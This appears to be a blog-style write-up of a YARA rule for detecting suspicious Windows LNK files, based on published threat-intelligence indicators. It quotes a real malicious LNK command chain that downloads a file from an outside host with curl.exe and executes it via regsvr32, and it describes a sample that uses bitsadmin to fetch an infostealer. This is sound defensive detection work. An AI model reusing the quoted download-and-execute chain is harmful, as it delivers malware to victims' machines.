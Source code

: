 # Day 7 - Suspicious LNK Files

The inspiration for todays yara rule comes from Cisco Talos's newest blog post: [Following the LNK metadata trail](https://blog.talosintelligence.com/following-the-lnk-metadata-trail/). I started by reviewing over the LNK files included in their [IOCs](https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt)

I noticed a few of the LNK files mentioned use `&&` quite a bit:
```
/q /c echo 'SGz' && echo "TYEq" && MD "%HOMEPATH%\bG" && echo "Nm" && ping ExCt.com && echo "rcF" && curl.exe -o %HOMEPATH%\bG\J10M.VI.WYYK https://takeone[.]tech/8NMlHT/EWw.png && regsvr32 "%HOMEPATH%\bG\J10M.VI.WYYK"
```

# Yara Rule

Here's the Yara rule that I created for detecting suspicious LNK files:

```
rule sus_lnk_files {
  meta:
    author = "Colin Cowie"
    description = "Yara rule to detect suspicious .LNK files"
    reference = "https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt"
  strings:
    $lnk_header = { 4C 00 00 00 }
    $andand = " && " ascii wide
  condition:  
    $lnk_header at 0
    and #andand > 2
    and filesize < 5KB
}
```

# Results

At first I did not include `ascii wide` in the yara rule for the string ` $andand = " && "`. After making that change I got great results instead of none! 

Here's one intresting finding:

- Filename: `output.lnk`
- SHA1: `24fec293033b5c7103b1c1031394043943497459`
- VT Upload date: *2023-01-07 13:27:41 UTC*

Functionality:
1. uses `bitsadmin /transfer` to download .bat script from discord CDN
2. .bat script downloads `payload.exe` (InfoStealer)

Payload:
- SHA1: [8e55fb63589464ca0803e1eb5b8b80572deec3dd](https://www.virustotal.com/gui/file/676f902e76b713e474b22fd18aa504ef8436df9adedd5b29a63c867d09738636/details)

# References
- https://blog.talosintelligence.com/following-the-lnk-metadata-trail/
- https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt
